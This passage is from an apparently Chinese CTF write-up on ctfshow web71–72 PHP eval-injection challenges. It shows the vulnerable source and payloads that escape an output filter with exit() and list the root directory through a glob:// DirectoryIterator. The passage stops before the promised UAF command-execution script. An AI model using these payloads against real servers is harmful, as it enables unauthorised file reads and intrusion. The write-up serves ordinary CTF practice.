 ```php
<?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```
看源码后得知会将命令执行后的结果中的数字字母全部替换为?，让我们无法查看，解决也很简单，在第8行执行完eval后让代码结束即可。
最终payload：c=include('/flag.txt');exit(); 
## web72（uaf脚本）
```php
<?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```
代码上没啥变化，但是实操中发现之前的姿势都不能用了，而且也不知道文件位置，先看一下当前目录
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637898487369-27008bf0-2f0c-49d1-b522-95e270b22b7b.png#clientId=u024a4150-3604-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=uceae531c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=638&originWidth=1095&originalType=binary&ratio=1&rotation=0&showTitle=false&size=67093&status=done&style=none&taskId=u29cec3aa-110e-444c-b8ec-a02568b034f&title=&width=601)
没什么问题，看一下根目录
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637898550042-11019791-7c2a-4b1d-9d02-180289212956.png#clientId=u024a4150-3604-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=ud3bd15ee&margin=%5Bobject%20Object%5D&name=image.png&originHeight=625&originWidth=1119&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69705&status=done&style=none&taskId=u3fc8989a-ccb0-435c-9247-7ee39525bef&title=&width=627)
根目录貌似无法查看了，换个姿势
```php
payload：
c=?><?php 
$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f.' ');}
exit();
?>
```
这里?>是闭合前面的php，让我们后面的php生效，既然直接读不可行，那么就间接来读，遍历根目录下所有文件，然后逐次打印
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637899253051-09d3c32c-e7b7-4343-89be-d4477b8258d5.png#clientId=u024a4150-3604-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=400&id=uc969f4a5&margin=%5Bobject%20Object%5D&name=image.png&originHeight=796&originWidth=1148&originalType=binary&ratio=1&rotation=0&showTitle=false&size=85783&status=done&style=none&taskId=u7b68611d-2124-4f32-90df-8bab2f3d383&title=&width=577)
发现flag0.txt，应该就是要找的文件了，这里直接读也是不行的，看了其他师傅的方法是要用uaf脚本进行命令执行，脚本如下，执行时要url编码
```php
<?php
```